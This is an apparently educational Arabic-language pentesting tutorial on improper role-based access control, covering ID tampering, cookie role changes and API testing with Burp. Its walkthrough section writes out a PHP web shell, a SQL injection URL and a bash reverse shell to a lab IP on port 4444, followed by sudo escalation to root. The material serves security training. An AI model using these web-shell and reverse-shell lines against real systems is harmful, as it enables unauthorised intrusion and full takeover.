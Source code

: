 # **1. إيه هو Improper Role-Based Access Control (RBAC)؟**

## **الشرح العميق:**
ال"Role-Based Access Control" (RBAC) هو نظام تحكم في الوصول بيعتمد على "الأدوار" (Roles) اللي بيتم تعيينها للمستخدمين في تطبيق أو نظام. يعني كل مستخدم عنده دور معين (زي User، Editor، Admin)، والدور ده بيحدد إيه اللي يقدر يعمله وإيه اللي مش مسموح بيه. لما نقول "Improper RBAC"، يعني إن النظام ده معمول بشكل غلط أو ضعيف، فالمستخدم يقدر يعمل حاجات خارج دوره، زي إن مستخدم عادي يشوف بيانات الأدمن أو يعدل حاجة المفروض للأدمن بس. ده بيحصل بسبب:
- سوء تصميم الصلاحيات.
- عدم التحقق من دور المستخدم قبل تنفيذ أمر.
- إعطاء صلاحيات زيادة عن اللزوم.

## **طرق اكتشافها :**
### 1. **فحص الوصول في الويب:**
   - لو موقع فيه حساب User عادي:
     - جرب رابط زي: `http://target.com/api/users/123`.
     - عدل الـ ID لـ `124` أو `1` -> لو فتح حساب حد تاني، يبقى RBAC ضعيف.

### 2. **اختبار الأدوار:**
   - لو عندك حساب User، جرب صفحة Admin:
     - ال`http://target.com/admin/dashboard` -> لو فتحت، يعني مافيش تحقق من الدور.

### 3. **فحص الـ API:**
   - استخدم Burp Suite:
     - ال Intercept طلب زي `GET /api/settings` -> لو رجع بيانات لمستخدم عادي، يبقى Improper RBAC.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط ناس في أوض مختلفة في البيت، بس سايب الأبواب مفتوحة، فالكل يقدر يخش أي حتة! Improper RBAC يعني كل واحد يعمل اللي عايزه من غير ما حد يقوله لأ."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
لما RBAC يكون ضعيف أو مضبوط غلط، بيفتح الباب للمهاجم يعمل حاجات خطيرة:
- **تصعيد أفقي (Horizontal):** مستخدم عادي يشوف أو يعدل بيانات مستخدم تاني.
- **تصعيد عمودي (Vertical):** مستخدم عادي يوصل لصلاحيات Admin أو يتحكم في النظام.
- **سرقة بيانات:** ياخد معلومات المفروض تكون لأدوار أعلى بس.
- **تخريب:** يغير إعدادات أو يمسح حاجات مهمة.

في الـ Pentesting، الثغرة دي ذهب لأنها بتخليك تتخطى حدود دورك وتصير الكبير بدون ما تحتاج مجهود كبير.

## طرق استغلالها لو لقتها:
### 1. **استغلال الـ API:**
   - لو لقيت طلب زي `POST /api/update_user` بتاعك كـ User:
     - غير الـ Payload في Burp:
       -ال `"user_id": 123` لـ `"user_id": 1` -> لو نجح، يبقى RBAC مكسور.

### 2. **تجاوز التحقق:**
   - لو موقع بيستخدم Cookie زي `role=user`:
     - غيرها في المتصفح لـ `role=admin` -> لو فتحت صفحة Admin، يبقى ضعيف.

### 3. **SQL Injection مع RBAC:**
   - ء`http://target.com/profile?id=123; SELECT * FROM users WHERE role='admin' --` -> لو جاب بيانات Admin، يبقى مافيش حماية.

## **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون حاطط حارس بس نايم، أي حد يقدر يعدي وياخد اللي عايزه! المهاجم يلاقي الثغرة دي، يبقى الباشا بتاع الموقع على طول."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الضعف في RBAC عشان تتجاوز حدود دورك وتاخد وصول أعلى أو تتحكم في حاجات ممنوعة.
- **مثال واقعي:** لو مستخدم عادي قدر يعدل بيانات الأدمن بتغيير الـ ID في الرابط، يبقى RBAC مضروب.

## **خلاصة بالعامية المصرية:**
"لما تلاقي RBAC ضعيف، زي ما تكون لقيت خرم في الحيطة، تدخل منه وتبقى الكبير بتاع اللعبة من غير ما حد يحس!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

## **الخطوة 2: إنشاء حساب User**
- لو الموقع بيسمح، سجل حساب عادي:
  - Username: `testuser` - Password: `test123`.
- سجل دخول وشوف حدودك.

## **الخطوة 3: اختبار RBAC**
- جرب تغير الـ ID:
  - `http://192.168.1.10/profile?id=100` (حسابك).
  - `http://192.168.1.10/profile?id=1` -> لو فتح حساب الأدمن، يبقى RBAC ضعيف.
- جرب صفحات Admin:
  - `http://192.168.1.10/admin` -> لو فتحت بدون تحقق، يبقى مكشوف.

## **الخطوة 4: استغلال أفقي**
- لو لقيت API:
  - Intercept بـ Burp: `GET /api/users/100`.
  - غيرها لـ `GET /api/users/1` -> لو جاب بيانات الأدمن، سجلها.

## **الخطوة 5: استغلال عمودي**
- لو لقيت Cookie زي `role=user`:
  - غيرها في المتصفح لـ `role=admin`.
  - افتح: `http://192.168.1.10/admin/settings` -> لو نجحت:
    - ابحث عن Upload -> ارفع `shell.php`: `<?php system($_GET['cmd']); ?>`.
    - `http://192.168.1.10/admin/shell.php?cmd=id` -> `www-data`.

## **الخطوة 6: تصعيد الصلاحيات**
- من الـ Shell:
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.
  - `id` -> `www-data` -> `sudo -l` -> لو لقيت `sudo /bin/bash`، نفذه -> `root`.

## **الخطوة 7: توثيق**
- سجل كل اللي وصلتله (زي بيانات الأدمن أو Shell).
- قدم تقرير يوضح إزاي RBAC الضعيف فتح الباب للتحكم.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت بيت الأدوار فيه مفتوحة، خشيت من أوضة صغيرة، لعبته في الكبيرة، وطلعت الكبير بتاع الحتة! RBAC لما يكون ضعيف، يبقى طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Improper Role-Based Access Control هي ثغرة كبيرة لأنها بتخلّي المستخدم يتجاوز دوره ويوصل لأماكن أو صلاحيات المفروض ممنوعة. في الـ Pentesting، دور على الضعف ده في الروابط، الـ API، أو الكوكيز، استغله عشان تاخد بيانات أو Shell، ووري العميل إن نظامه زي لعبة مفتوحة للكل! بالطريقة دي، تبقى البطل بتاع الساحة بكل سهولة!



# اختبر حفظك: [[Improper Role-Based Access Control (RBAC) (Q)]]